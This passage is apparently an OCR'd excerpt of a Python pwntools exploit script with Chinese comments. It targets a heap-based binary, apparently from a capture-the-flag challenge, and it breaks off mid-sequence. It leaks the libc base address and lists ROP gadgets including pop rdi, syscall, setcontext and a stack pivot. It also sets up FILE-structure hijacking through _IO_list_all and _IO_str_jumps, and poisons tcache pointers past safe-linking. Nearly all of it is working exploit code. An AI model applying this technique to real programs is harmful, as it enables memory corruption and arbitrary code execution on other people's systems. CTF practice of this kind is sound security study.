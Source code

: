```plain
    delete(2)

    add(2)
    edit(2, mchunk_size(0x21))
    add(2)
    edit(2, mchunk_size(0x441))
    add(2)
    add(2)
    # 这里提前将 _IO_buf_end 的值填上
    edit(2, p64(end))
    for i in range(0x1f):
        add(2)
    add(2)
    edit(2, mchunk_size(0x31))
    add(2)

    delete(0)
    show(0)
    libc.address = u64(rr(8)) - 0x1e0c00
    log.success('libc_addr: 0x%x', libc.address)
    _IO_list_all = libc.sym['_IO_list_all']
    _IO_str_jumps = libc.address + 0x1e2560
    free_hook = libc.address + 0x1e3e20
    _IO_str_overflow = libc.address + 0x8fbb0
    setcontext = libc.address + 0x529ad
    # 0x000000000014a0a0 : mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
    hijack_rsp = libc.address + 0x14a0a0
    # 0x0000000000028a55 : pop rdi ; ret
    pop_rdi = libc.address + 0x28a55
    # 0x000000000002a4cf : pop rsi ; ret
    pop_rsi = libc.address + 0x2a4cf
    # 0x00000000000c7f32 : pop rdx ; ret
    pop_rdx = libc.address + 0xc7f32
    # 0x0000000000044c70 : pop rax ; ret
    pop_rax = libc.address + 0x44c70
    # 0x000000000006105a: syscall; ret;
    syscall = libc.address + 0x6105a
    # 0x59020 : mov rsp, rdx ; ret
    mov_rdx_rsp = libc.address + 0x59020
    # 0x0000000000033af2 : pop rsp ; ret
    pop_rsp = libc.address + 0x33af2
    ret = libc.address + 0x26699

    mprotect = libc.sym['mprotect']
    new_stack = libc.bss()
    read_buf = libc.bss() + 0x200


    add(0)
    delete(0)
    delete(2)
    # heap_addr + 0x60 对应 [rdx + 0x20] 的位置，放置 setcontext+61 的地址
    edit(0, p64(setcontext))
    poc = ((heap_addr+0xc00)>>12)^((heap_addr+0x7b0))
    edit(2, p64(poc))
    add(0)
    # 获得第二块 largebin_chunk，地址为 heap+0x300
    add(2)
    log.success('large chunk No.2: 0x%x', heap_addr+0x7a0)
    delete(0)

    delete(1)
```